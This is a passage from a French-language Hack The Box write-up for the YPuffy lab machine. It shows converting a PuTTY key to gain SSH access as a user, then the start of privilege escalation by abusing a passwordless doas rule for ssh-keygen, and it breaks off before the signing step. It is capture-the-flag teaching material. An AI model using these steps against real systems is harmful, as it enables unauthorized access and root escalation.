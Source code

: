     root@seyptoo-Aspire-E5-721:~/htb/writeup/YPuffy/www# puttygen *.ppk -O private-openssh -o id_dsa
    
Ensuite vous tapez la commande ci-dessous.

    root@seyptoo-Aspire-E5-721:~/htb/writeup/YPuffy/www# chmod 600 id_rsa

Et vous pouvez effectuer la connexion grâce à la clé SSH.

    root@seyptoo-Aspire-E5-721:~/htb/writeup/YPuffy/www# ssh -i id_dsa alice1978@10.10.10.107
    OpenBSD 6.3 (GENERIC) #100: Sat Mar 24 14:17:45 MDT 2018

    Welcome to OpenBSD: The proactively secure Unix-like operating system.

    Please use the sendbug(1) utility to report bugs in the system.
    Before reporting a bug, please try to reproduce it with the latest
    version of the code.  With bug reports, please try to ensure that
    enough information to reproduce the problem is enclosed, and if a
    known fix for it exists, include that as well.

    ypuffy$ ls
    ssh-ca   user.txt windir
    ypuffy$ wc -c user.txt
        33 user.txt
        
 PrivEsc
 ----
Donc après avoir chercher pendant un certain temps j'ai trouver un fichier qui comporte du SUID, donc tapez la commande juste ci-dessous.

    ypuffy$ find / -user root -perm -4000 -print 2>/dev/null 
    [...SNIP...]
    /usr/bin/doas
    [...SNIP...]

Donc si nous regardons le fichier de configuration dans /etc/doas.conf il y'a des informations à la ligne 2.

    permit nopass alice1978 as userca cmd /usr/bin/ssh-keygen
    
Donc concrètement comme vous pouvez le voir, l'utilisateur alice1978 n'est pas obligé de taper un mot de passe lors de la connexion en SSH. Donc nous allons essayer de générer une clé RSA et de changer ça signature avec la commande doas.
D'abord nous devons créer un dossier dans **/tmp** vous pouvez le crée ou voulais bien evidamment.

    ypuffy$ mkdir /tmp/.root

Après avoir créer le dossier, nous devons changer les permissions.

    ypuffy$ chmod 777 /tmp/.root
    ypuffy$ cd /tmp/.root
    
Ensuite nous allons générer une clé RSA avec la commande **ssh-keygen**.

    ypuffy$ ssh-keygen

Nous allons ensuite copier ce fichier avec la commande **cp**.

    ypuffy$ cp /home/alice1978/.ssh/id_rsa* .
    
Nous allons utilisé la commande doas pour changer la signature. Tapez la commande ci-dessous.
